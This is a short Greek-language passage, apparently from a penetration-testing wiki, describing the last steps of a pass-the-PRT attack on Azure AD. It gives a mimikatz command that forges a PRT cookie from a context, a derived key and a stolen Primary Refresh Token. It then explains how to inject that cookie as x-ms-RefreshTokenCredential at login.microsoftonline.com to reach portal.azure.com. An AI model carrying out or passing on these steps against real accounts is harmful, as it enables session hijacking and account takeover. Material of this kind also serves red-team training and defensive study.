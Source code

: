 * Και την τιμή του παράγωγου κλειδιού:

<figure><img src="../../../.gitbook/assets/image (150).png" alt=""><figcaption></figcaption></figure>

* Τέλος, μπορείτε να χρησιμοποιήσετε όλες αυτές τις πληροφορίες για τη **δημιουργία cookies PRT**:
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```
<figure><img src="../../../.gitbook/assets/image (282).png" alt=""><figcaption></figcaption></figure>

* Πηγαίνετε στο [https://login.microsoftonline.com](https://login.microsoftonline.com), διαγράψτε όλα τα cookies για το login.microsoftonline.com και εισάγετε ένα νέο cookie.
```
Name: x-ms-RefreshTokenCredential
Value: [Paste your output from above]
Path: /
HttpOnly: Set to True (checked)
```
* Στη συνέχεια πηγαίνετε στη διεύθυνση [https://portal.azure.com](https://portal.azure.com)
